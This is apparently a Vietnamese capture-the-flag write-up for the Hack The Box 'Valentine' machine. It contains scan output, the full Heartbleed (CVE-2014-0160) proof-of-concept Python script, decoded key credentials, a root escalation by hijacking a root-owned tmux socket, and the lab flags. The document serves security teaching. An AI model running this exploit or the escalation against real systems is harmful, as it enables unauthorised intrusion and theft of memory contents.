


# Thông tin


> [!NOTE]
> Mức độ: Dễ 
> Nền tảng: Linux
> Url:https://app.hackthebox.com/machines/Valentine
> Mô tả: Valentine là một cỗ máy có độ khó trung bình rất độc đáo, tập trung vào lỗ hổng Heartbleed, vốn đã gây ra tác động tàn phá đối với các hệ thống trên toàn cầu.>

# Recon

## Port Scan

```bash
nmap -sSVC -Pn 10.129.55.189
```

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-15 10:31 -0400
Nmap scan report for 10.129.55.189
Host is up (0.057s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_ssl-date: 2026-10-15T14:30:48+00:00; -1m09s from scanner time.
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1m09s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.59 seconds
```

> Kết quả phát hiện 3 dịch vụ ssh, http, https

| Port | Service | Version                          |
| ---- | ------- | -------------------------------- |
| 22   | ssh     | OpenSSH 5.9p1 Debian 5ubuntu1.10 |
| 80   | http    | Apache httpd 2.2.22              |
| 443  | https   | Apache httpd 2.2.22              |

## HTTP 

> Quét thư mục, tệp ẩn phát hiện thư mục /dev, /decode.php, /encode.php đáng chú ý 

```bash
feroxbuster -u http://10.129.55.189/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 100 -d 3 -x php,html,txt,xml,sh -C 404,500
```

```bash
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.55.189/
 🚩  In-Scope Url          │ 10.129.55.189
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 💢  Status Code Filters   │ [404, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt, xml, sh]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 3
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       10l       30w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      312c http://10.129.55.189/dev => http://10.129.55.189/dev/
200      GET        8l       39w      227c http://10.129.55.189/dev/notes.txt
200      GET        1l        2w       38c http://10.129.55.189/index
200      GET        1l        2w       38c http://10.129.55.189/index.php
200      GET        2l     1794w     5383c http://10.129.55.189/dev/hype_key
200      GET      587l     3309w   261634c http://10.129.55.189/omg.jpg
200      GET        1l        2w       38c http://10.129.55.189/
200      GET       25l       54w      552c http://10.129.55.189/decode.php
200      GET       27l       54w      554c http://10.129.55.189/encode
200      GET       27l       54w      554c http://10.129.55.189/encode.php
[####################] - 2m    159534/159534  0s      found:10      errors:2      
[####################] - 2m    159504/159504  1221/s  http://10.129.55.189/ 
[####################] - 6s    159504/159504  28854/s http://10.129.55.189/dev/ => Directory listing (add --scan-dir-listings to scan) 
```

> notes.txt

```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

> /dev/hype_key thấy 1 chuỗi các byte hexa cần giải mã sang plain text lấy được RSA pricate key cũng thu được 1 tên người dùng là `hype` đây có thể chính là key của người dùng đó tuy nhiên không crack được passphare của key 

```bash
echo [hype_key] | xxd -r -p
```



# Exploit

> Khai thác lỗ hổng Heartbleed của OpenSSL để đọc được các thông tin vượt ngoài bộ nhớ được cấp sẽ đọc được 1 yêu cầu đến /decode.php chứa thông tin xác thực 
> https://en.wikipedia.org/wiki/Heartbleed
> https://www.exploit-db.com/exploits/32745

``` python
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01                                  
''')

hb = h2bin(''' 
18 03 02 00 03
01 40 00
''')

def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % ord(c) for c in lin)
        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
        print '  %04x: %-48s %s' % (b, hxdat, pdat)
    print

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time() 
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata
        

def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print 'Unexpected EOF receiving record header - server closed connection'
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print 'Unexpected EOF receiving record payload - server closed connection'
        return None, None, None
    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False

def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()
            
```

> Thu được đoạn thông tin mã hóa base64
> aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlIA== : heartbleedbelievethehype
> Đây là passphare của khóa RSA


> Kết nối vào máy qua SSH với RSA key và passphrare cần hạ cấp loại mã hóabash

```bash
r└─$ ssh -o PubkeyAcceptedAlgorithms=+ssh-rsa -i id_rsa hype@10.129.55.189
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

hype@Valentine:~$ whoami
hype
hype@Valentine:~$ id
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)

```

> User Flag

```
68af56d2b85dfe9f49cd36469d19875a
```

# Privelege Escalation

> Liệt kê lịch sử lệnh phát hiện hype dungf nhiều tmux để giao tiếp với tmux server qua các socket

```bash
hype@Valentine:/mnt/hgfs$ cat ~/.bash_history 

exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess 
exit
```

> Liệt kê các tiến trình đang chạy ta thấy root đang kết nối 1 socket 
> Chúng ta có quyền đọc/ghi vào socket đấy 
```bash
hype@Valentine:/mnt/hgfs$ ps -aux | grep tmux
Warning: bad ps syntax, perhaps a bogus '-'? See http://procps.sf.net/faq.html
root       1055  0.0  0.1  26416  1668 ?        Ss   07:24   0:02 /usr/bin/tmux -S /.devs/dev_sess
hype      48093  0.0  0.0  13580   924 pts/0    S+   09:09   0:00 grep --color=auto tmux
hype@Valentine:/mnt/hgfs$ ls -al /.devs/dev_sess
hype@Valentine:/mnt/hgfs$ ls -al /.devs/dev_sess
srw-rw---- 1 root hype 0 Oct 15 07:24 /.devs/dev_sess
```

> Leo thang và đọc Root Flag bằng cách kết nối vào socket /.devs/dev_sess

```
hype@Valentine:/mnt/hgfs$ tmux -S /.devs/dev_sess
root@Valentine:/mnt/hgfs# id
uid=0(root) gid=0(root) groups=0(root)
root@Valentine:/mnt/hgfs# whoami
root
root@Valentine:/mnt/hgfs# cd /root
root@Valentine:~# cat root.txt
c905e3a0babd8fcb1df314e012568727
```

# Kết luận 

>[!NOTE]
>Phòng này mức độ không khó nhưng cần để ý 1 vài thông tin nhạy cảm 
>Khai thác lỗ hổng Heartbleed để có thông tin xác thực từ đó xâm nhập máy mục tiêu 
>Leo thang đặc quyền bằng cách kết nối với phiên trên socket server có quyền root 